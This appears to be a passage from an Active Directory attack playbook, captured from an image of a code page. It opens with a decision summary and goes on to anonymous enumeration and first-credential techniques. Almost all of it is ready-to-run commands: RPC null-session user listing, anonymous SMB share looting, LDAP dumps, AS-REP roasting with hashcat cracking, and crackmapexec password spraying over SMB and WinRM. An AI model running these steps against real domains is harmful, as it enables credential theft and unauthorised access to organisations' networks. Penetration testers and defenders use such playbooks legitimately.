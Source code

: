 **Decision (high level):**

```
If 88 and 389/445 present → likely DC.
No creds yet → try RPC null, SMB anon, AS‑REP roast.
Any creds found → run BloodHound, LDAP dump, Kerberoast, check WinRM.
Need shell → WinRM with creds; else loot SMB/web for creds.
```

---

## 2) Anonymous and unauthenticated enumeration

### 2.1 RPC null session
```bash
rpcclient -U '' -N $TARGET -c enumdomusers | tee notes/users.raw
awk -F'\[|\]' '/user/ {print $2}' notes/users.raw > notes/users.txt
```

### 2.2 SMB anonymous
```bash
crackmapexec smb $TARGET
smbclient -L //$TARGET -N
# Browse interesting shares
smbclient //$TARGET/Replication -N    # example
smbclient //$TARGET/SYSVOL -N
# Inside smbclient:
# > recurse on; prompt off; mget *
```

### 2.3 LDAP anonymous probe
```bash
ldapsearch -x -H ldap://$TARGET -s base namingcontexts
# If the base DN appears and anon works, dump broadly:
ldapsearch -x -H ldap://$TARGET -b "DC=example,DC=local" > ldap/anon.ldif
```

### 2.4 AS‑REP roasting (no creds)
```bash
GetNPUsers.py -no-pass -usersfile notes/users.txt $DOMAIN/ -dc-ip $TARGET | tee loot/asrep.txt
# Crack if you get $krb5asrep$ lines
hashcat -m 18200 loot/asrep.txt /usr/share/wordlists/rockyou.txt --show -o loot/asrep_cracked.txt
```

**Next moves:** If you got any password → go to §4 (Authenticated). If nothing, loot SMB/web harder and try gentle password spray (§3.1).

---

## 3) First credentials: low‑risk wins

### 3.1 Password spray (respect lockout)
Use only 1–3 guesses across the whole list, pause, then reevaluate.
```bash
crackmapexec smb $TARGET -u notes/users.txt -p 'Spring2025!' --continue-on-success
# Try WinRM spray if SMB blocked:
crackmapexec winrm $TARGET -u notes/users.txt -p 'Spring2025!' --continue-on-success
```

